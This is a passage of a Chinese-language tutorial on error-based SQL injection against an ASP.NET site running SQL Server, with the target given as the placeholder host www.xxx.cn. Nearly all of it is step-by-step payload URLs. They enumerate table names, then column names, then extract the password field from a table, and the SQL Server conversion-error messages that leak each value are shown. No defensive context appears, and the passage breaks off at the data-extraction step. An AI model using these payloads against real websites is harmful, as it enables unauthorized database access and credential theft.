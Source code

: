 
报错信息：

在将 nvarchar 值 ‘depart‘ 转换成数据类型 int 时失败。

  

再爆其他表：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (select top 1 name from abc.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('depart'))>0
```

  

再继续：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1 and (select top 1 name from abc.sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('depart','worker'))>0
```

#### **查询表中的列名或者是字段名**

查字段名：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (select top 1 COLUMN_NAME from abc.information_schema.columns where TABLE_NAME='depart')>0
```

  

报错信息：

在将 nvarchar 值 ‘ID‘ 转换成数据类型 int 时失败。

  

再爆其他字段：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1 and (select top 1 COLUMN_NAME from abc.information_schema.columns where TABLE_NAME='depart' and COLUMN_NAME not in('ID'))>0
```

  

再继续：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1  and (select top 1 COLUMN_NAME from abc.information_schema.columns where TABLE_NAME='depart' and COLUMN_NAME not in('ID','NAME'))>0
```

#### **爆数据**

查询数据：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1 and (select top 1 password from depart)>0
```

  

报错信息：
